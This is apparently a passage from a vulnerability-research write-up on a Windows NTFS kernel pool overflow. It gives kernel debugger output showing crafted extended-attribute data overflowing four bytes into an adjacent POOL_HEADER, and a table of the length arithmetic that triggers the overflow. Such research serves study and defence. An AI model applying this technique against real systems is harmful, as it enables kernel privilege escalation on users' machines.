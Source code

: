 ```
1: kd> pc
Ntfs!NtfsCommonQueryEa+0x2bf:
fffff803`0cb8bd0f e8ec5df5ff      call    Ntfs!memcpy (fffff803`0cae1b00)

1: kd> p
Ntfs!NtfsCommonQueryEa+0x2c4:
fffff803`0cb8bd14 eb87            jmp     Ntfs!NtfsCommonQueryEa+0x24d (fffff803`0cb8bc9d)

1: kd> db ffffd889349859c0 l180
ffffd889`349859c0  00 00 16 03 4e 74 46 45-00 00 00 00 00 00 00 00  ....NtFE........
ffffd889`349859d0  9c 00 00 00 00 0f 81 00-55 53 45 52 2e 43 4f 4d  ........USER.COM
ffffd889`349859e0  4d 45 4e 54 33 32 31 00-54 68 69 73 20 69 73 20  MENT321.This is 
ffffd889`349859f0  61 20 63 6f ff 6d 65 6e-74 31 32 33 41 41 41 41  a co.ment123AAAA
ffffd889`34985a00  42 42 42 42 43 43 43 43-44 44 44 44 45 45 45 45  BBBBCCCCDDDDEEEE
ffffd889`34985a10  46 46 46 46 41 41 41 41-42 42 42 42 43 43 43 43  FFFFAAAABBBBCCCC
ffffd889`34985a20  44 44 44 44 45 45 45 45-46 46 46 46 47 47 47 47  DDDDEEEEFFFFGGGG
ffffd889`34985a30  48 48 48 48 4a 4a 4a 4a-4b 4b 4b 4b 4c 4c 4c 4c  HHHHJJJJKKKKLLLL
ffffd889`34985a40  4d 4d 4d 4d 4e 4e 4e 4e-4f 4f 4f 4f 50 50 50 50  MMMMNNNNOOOOPPPP
ffffd889`34985a50  01 02 03 04 05 06 07 08-01 02 03 04 05 06 07 08  ................
ffffd889`34985a60  01 02 03 04 05 06 07 08-00 00 00 00 a8 00 00 00  ................
ffffd889`34985a70  00 0f 8d 00 55 53 45 52-2e 43 4f 4d 4d 45 4e 54  ....USER.COMMENT
ffffd889`34985a80  32 32 32 00 54 68 69 73-20 69 73 20 61 20 63 6f  222.This is a co
ffffd889`34985a90  ff 6d 65 6e 74 31 32 33-41 41 41 41 42 42 42 42  .ment123AAAABBBB
ffffd889`34985aa0  43 43 43 43 44 44 44 44-45 45 45 45 46 46 46 46  CCCCDDDDEEEEFFFF
ffffd889`34985ab0  47 47 48 48 48 48 49 49-49 49 4a 4a 41 41 41 41  GGHHHHIIIIJJAAAA
ffffd889`34985ac0  42 42 42 42 43 43 43 43-44 44 44 44 45 45 45 45  BBBBCCCCDDDDEEEE
ffffd889`34985ad0  46 46 46 46 47 47 47 47-48 48 48 48 4a 4a 4a 4a  FFFFGGGGHHHHJJJJ
ffffd889`34985ae0  4b 4b 4b 4b 4c 4c 4c 4c-4d 4d 4d 4d 4e 4e 4e 4e  KKKKLLLLMMMMNNNN
ffffd889`34985af0  4f 4f 4f 4f 50 50 50 50-01 02 03 04 05 06 07 08  OOOOPPPP........
ffffd889`34985b00  01 02 03 04 05 06 07 08-01 02 03 04 05 06 07 08  ................
ffffd889`34985b10  00 00 00 00 00 00 00 00-00 02 05 00 41 43 00 54  ............AC.T
ffffd889`34985b20  41 41 41 41 4e 70 41 74-00 00 00 00 00 00 00 00  AAAANpAt........        // <- Overflowing four bytes into the POOL_HEADER of the next chunk
ffffd889`34985b30  b0 9b 50 2c 89 d8 ff ff-b0 9b 50 2c 89 d8 ff ff  ..P,......P,....
```

And we did overflow four bytes (`AAAA`) into the `POOL_HEADER` of the adjacent chunk. I have to say, that I reconstructed this part after I already had a successful exploit. 
The overall process to achieve it was not as straight forward as this might have looked like.

We needed to just overflow four bytes, different lengths of EA were not deemed valid by the kernel and also the overflown four bytes had to be arbitrary values, remember the EA names must be valid ASCII and we prefer to use non-ascii characters to simplify the exploitation when taking control of the next chunks `POOL_HEADER`.

This all might have been a bit rough to understand without having reversed the invovled functions and not having stepped through it in a debugger yourself, so here is a table to aid your understanding.

|Iteration|out_buf_len|block_size|padding|if statement|
|-|-|-|-|-|
|1.|0x143|0x99|0x00|`if (0x99<(uint)(0x143-0x00))`|
|2.|0xaa|0xa5|0x03|`if (0xa5<(uint)(0xaa-0x03))`|
|3.|0x02|0x10|0x03|`if (0x10<(uint)(0x2-0x03))`|
